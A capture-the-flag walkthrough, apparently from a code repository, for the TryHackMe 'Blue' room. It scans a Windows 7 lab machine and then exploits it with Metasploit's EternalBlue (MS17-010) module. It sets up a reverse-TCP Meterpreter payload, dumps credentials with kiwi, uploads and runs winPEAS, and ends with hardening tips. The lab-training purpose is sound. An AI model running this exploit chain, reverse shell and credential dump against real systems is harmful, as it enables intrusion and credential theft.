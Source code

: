 # TryHackMe: Blue – Walkthrough

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Post-Exploitation & Privilege Escalation

7: Capturing Flags & Room Questions

8: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

sudo openvpn --config ~/Downloads/tryhackme.ovpn

Confirm connectivity

ip a            # Check your tun0 interface
ping 10.10.10.10  # Replace with the room's gateway to verify

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Full TCP Port Scan

nmap -p- -T4 -oN nmap/full-tcp-portscan.txt <TARGET_IP>

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

nmap -sC -sV -p 135,139,445,3389 -oN nmap/service-detect.txt <TARGET_IP>

-sC runs default scripts

-sV detects versions

### 2.3 SMB-Specific Enumeration

nmap -p445 --script smb-os-discovery,smb-vuln-ms17-010 -oN nmap/smb-enum.txt <TARGET_IP>

smb-os-discovery → OS details

smb-vuln-ms17-010 → checks EternalBlue vulnerability

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

msfconsole

Search for EternalBlue module

search ms17_010

Select the exploit

use exploit/windows/smb/ms17_010_eternalblue

Configure options

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

exploit

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : BLUE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64

## 6. Post-Exploitation & Privilege Escalation

Check for credentials with Mimikatz (if available)

meterpreter > load kiwi
meterpreter > creds_all

Upload & run winPEAS

meterpreter > upload /root/tools/winPEAS/winPEAS.exe C:\Windows\Temp\\
meterpreter > execute -f C:\Windows\Temp\winPEAS.exe

Review output

Look for unquoted service paths, weak permissions, etc.

## 7. Capturing Flags & Room Questions

User flag

cat C:\Users\Guest\Desktop\user.txt

Root flag (SYSTEM)

cat C:\Users\Administrator\Desktop\root.txt

Answer key questions in the room:

What SMB version is running?

What exploit did you use?

What is the OS build number?

What is the content of each flag?

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior


🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!

